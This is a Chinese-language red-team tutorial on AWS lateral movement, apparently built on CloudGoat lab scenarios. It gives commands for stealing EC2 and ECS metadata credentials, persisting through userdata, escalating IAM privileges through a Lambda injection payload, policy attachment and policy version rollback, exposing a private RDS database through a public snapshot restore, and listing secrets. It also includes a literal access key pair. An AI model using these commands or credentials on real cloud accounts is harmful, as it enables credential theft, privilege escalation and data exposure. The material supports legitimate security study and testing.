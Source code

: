 # 0x03 AWS资源以及其特殊性



**根据[AWS官方文档](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html)可以知道，为了方便运行在EC2上的程序访问AWS中的其它资源，可以配置instance profile来给EC2实例绑定一个角色(role)，这样运行在实例上的所有程序都有绑定角色配置的权限。metadata请求的也就是EC2绑定角色权限的一个凭据。**

```bash
iam:PassRole

ec2:AssociateIamInstanceProfile

ec2:ReplaceIamInstanceProfileAssociation
```



**这就是AWS中资源的特殊性，是资源的同时，也是一个AWS中的一个虚拟用户。**

**除了EC2，AWS中其它服务lambda/api-getway/ECS等均可以绑定角色。**



# 0x04 横向移动思路



## 4.1 枚举资源和权限

获得一个aksk后第一件事是枚举当前用户所拥有的权限和资源，可以使用[PACU](https://github.com/RhinoSecurityLabs/pacu/)或者[ScoutSuite](https://github.com/nccgroup/ScoutSuite)等工具辅助完成



```bash
#用enumerate-iam
python3.10 enumerate-iam.py --access-key AKIAWHEOTHRFYM6CAHHG --secret-key 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

#用pacu，工具还没整明白，工具有点类似msf。
```



## 4.2 EC2 Metadata

即获取EC2实力metadata的临时凭据：

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2Master
```



不过官方为了增强Metadata安全性，推出了IMDSv2，V2版本服务请求元数据要先PUT获取Token再带token请求，在一定程度上缓解了公有云环境下SSRF的危害:

```
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/
```





## 4.3 EC2 Userdata

在启动ec2实例时，可以设置一些userdata用于执行常见自动配置任务。userdata大概有两类：shell脚本和cloud-init指令。cloud-init指令类似shell脚本。

用户数据会在实例启动时自动执行，AWS设置它的本意是在EC2启动之前执行一些自动化的任务。用户使用不当可能造成凭据的泄露，如泄露数据库账号密码：

![image-20231026111025411](%E7%BA%A2%E9%98%9F%E8%A7%86%E8%A7%92%E4%B8%8B%E7%9A%84AWS%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8.assets/image-20231026111025411.png)

此外的一个持久化操作就是修改userdata并重启实例：

```bash
# 写恶意代码
aws ec2 run-instances --image-id ami-abcd1234 --count 1 --instance-type m3.medium
--key-name my-key-pair --subnet-id subnet-abcd1234 --security-group-ids sg-abcd1234 --user-data file://my_script.txt
# 重启
aws ec2 stop-instances --instance-ids i-xxxx
aws ec2 start-instances --instance-ids i-xxxx
```



## 4.4 ECS横向移动

在获取到EC2实例权限时，可以列举运行在EC2上的容器。

因为一个Task会绑定一个执行的Role，EC2也会绑定一个Role。

**横向思路1 EC2->Tasks**

控制了EC2后直接在容器内执行命令，访问task的metadata从而获取task绑定的Role的凭据：

```bash
#根据amazon docs，task的元数据端点为 169.254.170.2/v2/metadata
docker exec <container-id> sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```



**横向思路2 Tasks->EC2**

获取到单个容器的时候，如果容器的启动类型为EC2类型，可以尝试获取宿主机EC2的凭据：

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role
```





**横向思路3 Task迁移**

集群内可能有多个EC2，满足以下条件可把别的EC2中运行的任务迁移到被控EC2实例：

1. 获取到一个EC2实例控制权
2. 有update-container-instances-state权限，可以关闭或者暂停运行其它集群内的EC2实例

关闭其它EC2实例后，由于ECS会自动调度任务，所以会把任务迁移到被控EC2，这样又可以利用横向思路1获取任务Role的凭据：

```bash
#列举集群
aws --profile privd ecs list-clusters
#列举集群内的任务
aws --profile privd ecs list-tasks --cluster ecs-takeover-ecs_takeover_cgidtauurm6vyh-cluster --query taskArns

#查看任务
aws –profile privd ecs describe-tasks –cluster ecs-takeover-ecs_takeover_cgidtauurm6vyh-cluster –tasks

#列举集群内实例
aws –profile privd ecs list-container-instances –cluster ecs-takeover-ecs_takeover_cgidtauurm6vyh-cluster
#暂停ec2实例
aws –profile takeover ecs update-container-instances-state –cluster ecs-takeover-ecs_takeover_cgidtauurm6vyh-cluster –container-instances arn:aws:ecs:us-east-1:818529845881:container-instance/ecs-takeover-ecs_takeover_cgidtauurm6vyh-cluster/603439c72f5040b2834672fd312593d3 –status DRAINING
```



## 4.5 AssumeRole

可以获取某个Role权限的临时凭据，类似Windows域中的委派。

另外这个信任还是可以跨账号的:

- 同一账号下，role B的信任关系中有role A的ARN就够了
- 跨账号的场景下，role C（另一个账号的role，信任关系中要包含role A的ARN，role A也要有assume role的权限才能玩）

## 4.6 PassRole

为某个服务赋予某个IAM Role，之后这个服务就有对应Role的权限。但是特殊的是，**这个”服务”也可也是个用户，也就是说在有passRole权限的情况下，可以为某个用户增添某个Role。**



```bash
aws iam attach-user-policy --user-name xxx --policy-arn xxx
```



## 4.7 lambda提权

lambda创建的时候同样需要绑定一个Role，可以看lambda有无敏感操作的函数。



比如一个lambda函数的作用是为用户添加策略，就可以直接调用lambda函数为用户添加Administrator策略：

```bash
aws --region us-east-1 lambda invoke --function-name vulnerable_lambda_cgid0zbwsxk7ip-policy_applier_lambda1 --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": "cg-bilbo-vulnerable_lambda_cgid0zbwsxk7ip"}' out.txt
# cat the results to confirm everything is working properly
cat out.txt
```

此外lambda还可以ssrf读environ中的aksk。

## 4.8 更改托管策略版本提权

基于身份的策略是分版本的，`get-policy`获得的是当前的版本，`list-policy-versions`是列出策略的所有历史版本。

当遇到下面的条件：

- 历史版本中有更高的权限
- 当前的版本策略让目前的用户有了`setDefaultPolicyVersion`权限



就可以修改策略的版本实现提权：

```bash
aws iam set-default-policy-version –policy-arn <policy-arn> –version-id v5 –profile rollbackuser
```



## 4.9 RDS突破访问限制

突破RDS数据库设置为不允许公开访问的限制有两个思路：

1. 拿到VPC(专用网络，私网)中的机器后，通过机器直接访问数据库
2. 为不公开访问数据库创建快照，再根据快照创建一共可公开访问的数据库实例。



```bash
#创建数据库快照
aws rds create-db-snapshot –db-instance-identifier cg-rds-instance-codebuild-secrets-cgidrhg45g9k0y –db-snapshot test-shot

#查看子网subnet
aws rds describe-db-subnet-groups
#列举安全组
aws ec2 describe-security-groups
#根据快照创建新的数据库,同时要有一个开放了数据库端口的安全组，安全组从上一步获得
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier newDB1 --db-snapshot-identifier test-shot --db-subnet-group-name cloud-goat-rds-subnet-group-codebuild_secrets_cgidrhg45g9k0y --publicly-accessible --vpc-security-group-ids sg-0665d973c6ded2585

#列出rds实例
aws rds describe-db-instances
#列出可公开访问的rds的identifier
aws rds describe-db-instances --query 'DBInstances[*].PubliclyAccessible' --query 'DBInstances[*].DBInstanceIdentifier'

#修改密码
aws rds modify-db-instance –db-instance-identifier newdb1 –master-user-password P@ssw0rd123 
```

密码重置完毕后再访问就可以连接读取数据了。

## 4.10敏感信息收集

一些服务需要用户传递一些参数，一般是两种，环境变量和secretmanager。

环境变量，可以发现lambda函数的Environment中有aksk：

![img](%E7%BA%A2%E9%98%9F%E8%A7%86%E8%A7%92%E4%B8%8B%E7%9A%84AWS%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8.assets/images1663225307607-293a0ab0-66b0-4f4d-8c39-06ad3875f614.png)

第二种即secretmanager，可以列举secretmanager：

```bash
aws secretmanager list-secrets
```







# 参考

https://lonmar.cn/2022/10/01/public-cloud-redteam-attack-surface-summary/




